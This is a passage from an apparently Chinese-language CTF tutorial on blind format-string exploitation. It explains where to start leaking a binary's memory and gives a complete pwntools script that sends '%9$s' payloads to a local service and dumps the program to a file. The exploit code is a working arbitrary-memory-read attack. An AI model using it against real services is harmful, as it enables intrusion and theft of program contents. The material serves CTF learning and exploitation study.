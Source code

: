 除此之外，还有一个问题是泄露的起始地址在哪里？从各个大佬文章学到两种做法：从 .text 段开始；从程序加载地方开始；两种方法泄露出来程序，在 ida 中呈现有差别。

#### 从程序加载地方开始

先来说省事的，**从程序加载地方开始**。程序加载地方 32 位和 64 位各不相同：

![](https://mrskye.cn-gd.ufileos.com/img/2020-06-26-CTSvll4wMcTxU1DR.png)

32 位：从 0x8048000 开始泄露

64 位：从 0x400000 开始泄露

下面是这条例题的泄露脚本，结合注解分析如何处理上面提到的问题：

```python
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii

r = remote('127.0.0.1',10001)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = r.recvrepeat(0.2)
    return ret

# name
r.recv()
r.sendline('nameaaa')
r.recv()

# leak
begin = 0x8048000
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        if len(ret) == 0:   # nil
            begin +=1
            text_seg += '\x00'
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
    with open('dump_bin','wb') as f:
        f.write(text_seg)
```

